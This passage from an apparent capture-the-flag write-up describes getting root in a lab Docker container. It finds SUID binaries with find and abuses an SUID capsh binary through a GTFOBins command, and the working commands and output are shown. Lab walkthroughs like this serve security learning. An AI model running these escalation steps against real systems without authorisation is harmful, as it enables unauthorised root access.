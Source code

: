 I'll use this one-liner to stabilize a bit the shell by spawning a tty:

```sh
script "/dev/null" -qc "/bin/bash"
```

## System enumeration

We're actually in a Docker container, and the `/etc/hosts` file indicates that
our current IP is `172.19.0.3`. Therefore, I'll skip the 'Getting a lay of the
land' section, an directly get to the crux of the matter.

### SUID

Let's look for SUID binaries.

```sh
www-data@50bca5e748b0:/var/www/html$ find "/" -perm -4000 2>"/dev/null"
```

```
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/su
```

The `/sbin/capsh` binary is interesting!

## Privilege escalation (SUID)

If we search [GTFOBins](https://gtfobins.github.io/) for `capsh`, we find
[an entry](https://gtfobins.github.io/gtfobins/capsh/). Luckily, it has a
['SUID' section](https://gtfobins.github.io/gtfobins/capsh/#suid)!

### Exploitation

I'll use the given command to abuse the SUID permission on this binary:

```sh
www-data@50bca5e748b0:/var/www/html$ /sbin/capsh --gid="0" --uid="0" --
```

```

```

Yay!

### Stabilizing the shell

